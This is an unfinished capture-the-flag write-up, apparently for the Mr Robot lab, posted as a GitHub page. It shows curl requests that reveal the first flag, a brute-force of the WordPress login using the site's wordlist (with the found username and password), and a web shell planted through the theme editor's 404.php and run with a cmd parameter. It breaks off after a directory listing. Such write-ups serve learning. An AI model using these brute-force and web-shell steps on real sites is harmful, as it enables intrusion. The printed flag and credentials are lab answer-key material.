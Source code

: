 # not complete yet

## start with mr robot cool theme 
![Screenshot 2023-08-02 at 11-38-26 Screenshot](https://github.com/kiro6/writeups-ctfs/assets/57776872/0bedb10c-91ac-4554-8a0c-35835f328c0c)

## request robots.txt , and i found path for key 1 
```
$ curl "http://10.10.213.185/robots.txt"
User-agent: *
fsocity.dic
key-1-of-3.txt

$ curl "http://10.10.213.185/key-1-of-3.txt"
073403c8a58a1f80d943455fb30724b9

```

## lets check fsocity.dic , it is a downloadable file contating some words  
```
$ head fsocity.dic 
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```

## after browsing fscoscity website i found nothing , using wapplayzer it is using wordpress , i tried to reuqest wp-login.php and we have access to it

## there is a login page i tried to login using random username and password and it gave me this error `ERROR: Invalid username. Lost your password?` we can try bruteforce using `fsocity.dic ` to find the username 

## using burp intruder,FFUF or hydra in my case i used burp intruder and found the username `Elliot` which gave me this error `ERROR: The password you entered for the username Elliot is incorrect` , lets bruteforce the password too , the password is `ER28-0652`

## and we have access to wordpress admin panel , lets get rce via theme editor  
![Screenshot 2023-08-02 at 12-05-29 Edit Themes ‹ user's Blog! — WordPress](https://github.com/kiro6/writeups-ctfs/assets/57776872/2f49b47c-a720-4fc1-80b9-1b24d8fd05c6)


```bash
url "http://10.10.213.185/wp-admin/wp-content/themes/twentyfifteen/404.php?cmd=ls"  
admin
audio
blog
css
fsocity.dic
images
index.html
index.php
intro.webm
js
key-1-of-3.txt
license.bk
license.txt
readme.html
robots.txt
sitemap.xml
sitemap.xml.gz
video
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
you-will-never-guess-this-file-name.txt
<!DOCTYPE html>
<html lang="en-US" class="no-js">
<head>
```
